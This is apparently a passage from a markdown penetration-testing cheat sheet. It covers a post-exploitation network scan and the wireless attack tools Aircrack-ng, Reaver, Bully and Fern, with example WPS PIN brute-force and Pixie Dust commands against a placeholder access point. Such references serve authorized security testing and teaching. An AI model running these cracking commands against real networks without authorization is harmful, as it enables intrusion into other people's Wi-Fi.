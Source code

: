### Post-Exploitation Phase
```bash
# Network lateral movement
nmap -sV -sC target_network/24

# Data exfiltration simulation
# Demonstrate access to sensitive resources
# Document security weaknesses
# Prepare remediation recommendations
```

---

## Wireless Security Tools

### Offensive Tools

#### Aircrack-ng Suite
```bash
# Full suite components
airmon-ng      # Wireless interface management
airodump-ng    # Packet capture and analysis
aireplay-ng    # Packet injection and attacks
aircrack-ng    # Password and key cracking
airdecap-ng    # Decryption of captured packets
packetforge-ng # Packet crafting
ivstools       # IV analysis tools
```

#### Reaver
```bash
# WPS PIN brute force
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -v

# Advanced options
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -v -d 1 -x 60 -c 6 -K

# Pixie Dust attack
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -K -v
```

#### Bully
```bash
# Alternative WPS cracker
bully -b AA:BB:CC:DD:EE:FF -e "NetworkName" -c 6 wlan0mon

# Verbose mode with delays
bully -b AA:BB:CC:DD:EE:FF -e "NetworkName" -c 6 -d -v 4 wlan0mon
```

#### Fern WiFi Cracker
```bash
# GUI-based wireless security testing
# Features:
- Automatic network detection
- WEP, WPA, WPS cracking
- Session management
- Fake access point creation
```
